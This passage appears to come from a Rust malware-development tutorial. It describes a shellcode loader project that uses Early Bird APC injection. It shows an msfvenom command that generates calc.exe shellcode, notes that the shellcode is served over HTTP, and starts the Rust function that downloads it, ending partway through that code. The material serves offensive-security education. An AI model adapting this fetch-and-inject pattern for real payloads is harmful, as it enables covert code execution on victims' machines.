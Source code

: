 This steps are well identified in the code, but before going into that we will take a look into how the project is organized and how some of the parts have been generated. 

## The Code Architecture

The code has the following structure:

``` bash
Tester
├─── src
│   ├─── networking
│	│	├ mod.rs
│	│	└ http.rs
│   └─── injections
│		├ mod.rs
│		└ early_bird_apc.rs
└─── main.rs		 
```

The `networking` and `injections` are used as local libraries to simplify modularity and dependencies. Both modules are published in their pertinent mod.rs and then exported and used in the main.rs file. 

The shellcode that will be executed is the calculator application (calc.exe). The shellcode has been generated using `msfvenom` with the following command:

``` bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin 
```

Then the file has been served using a python http server. 

## Dissecting the code

In this section we dive into the code explaining part by part but without going into too much detail. The code has been refactored into libraries and uploaded to my github. Chek it out here: [link](https://github.com/N10h0ggr/RustMalDev).

### HTTP Client
The first step involves writing Rust code to connect to a specified HTTPS URL and download the shellcode using the `reqwest` create. This code pertains to the `netwokring/http.rs`:

``` rust
use reqwest;  
  
/// Sends a synchronous HTTP GET request to the specified URL and retrieves the response body as a string.  
///  
/// # Arguments  
///  
/// * `url` - A string slice representing the URL to which the GET request will be sent.///  
/// # Returns  
///  
/// * `Result<String, String>` - If successful, returns `Ok` containing the response body as a string.///   If an error occurs during the request or response handling, returns `Err` containing an error message.///  
/// # Examples  
///  
/// ```rust  
/// use http::fetch_shellcode;  
///  
/// match fetch_shellcode("https://api.example.com/data") {  
///     Ok(body) => println!("Received data: {}", body),  
///     Err(err) => eprintln!("Error: {}", err),  
/// }  
/// ```  
pub async fn fetch_shellcode(url: &str) -> Result<Vec<u8>, reqwest::Error> {  
```